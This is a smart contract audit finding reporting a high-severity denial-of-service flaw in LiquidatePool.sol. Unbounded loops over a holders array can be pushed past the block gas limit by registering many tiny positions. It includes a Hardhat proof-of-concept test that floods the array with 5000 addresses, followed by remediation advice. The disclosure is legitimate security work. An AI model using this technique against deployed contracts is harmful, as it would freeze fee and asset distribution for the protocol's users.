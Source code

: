 ## [High] Possible DoS attack due to unbounded for loops in LiquidatePool.sol

### Severity

High Risk

### Date Modified

Jan 9th, 2023¡4

### Summary

In the contract LiquidatePool.sol we have 2 functions that depend on the loop over holders.length:

`distributeAssets()`

`distributeFees()`

A malicious user can keep generating new addresses and minting minimal amounts of tokens to make the aforementioned functions exceed the block gas limit, stopping the distribution of fees and assets.

### Vulnerability Details (PoC)

To prove that we can add infinite addresses to the holders array, we need to add to the hardhat.config.js file:

```
mocha: {
    timeout: 0,
  },
  networks: {
    hardhat: {
      accounts: {
        count: 5000,
      },
    },
  },
```

Now, we are going to create the PoC:

1. We set the hardhat signers to 5000 to probe that we can add an unlimited addresses
2. We created the LiquidationPool.getHoldersLength() to return the number of users in the liquidationPool.
3. valueFee0 is the mint value where the Fee calculation is 0 so no cost to the attacker.
   - NOTE: This is also a vulnerability, also reported.
4. We add the 5000 malicious users to holders array.
5. We could continue adding users till the functions fail due to gas limit.

```
describe.only("Audit test", async () => {

    it("DoS adding infinite holders", async () => {
      console.log(
        "holders length init: ",
        await LiquidationPool.getHoldersLength()
      );

      const users = await ethers.getSigners();

      const valueFee0 = ethers.utils.parseEther("0.0000000000000001");

      for (let i = 0; i < users.length; i++) {
        await EUROs.mint(users[i].address, valueFee0);
        await EUROs.connect(users[i]).approve(
          LiquidationPool.address,
          valueFee0
        );
        await LiquidationPool.connect(users[i]).increasePosition(0, valueFee0);
        // ({ _position } = await LiquidationPool.position(users[i].address));
        // expect(_position.EUROs).to.equal(valueFee0);
      }

      console.log(
        "holders length after malicious: ",
        await LiquidationPool.getHoldersLength()
      );

      const distributeValue = ethers.utils.parseEther("0.5");
      await expect(LiquidationPool.distributeFees(distributeValue)).not.to.be
        .reverted;
    });
```

### Impact

The protocol will potentially stop distributing fees and assets, so this is a HIGH vulnerability that needs to be addressed before the protocol is deployed.

### Tools Used

Hardhat, manual.

### Recommendations

There are different approaches we can take:

1. Process the holders.length in batches.
2. Change the distribution to a dividensPerShare, for example, where we have created a fee x atomic value distribution or similar.
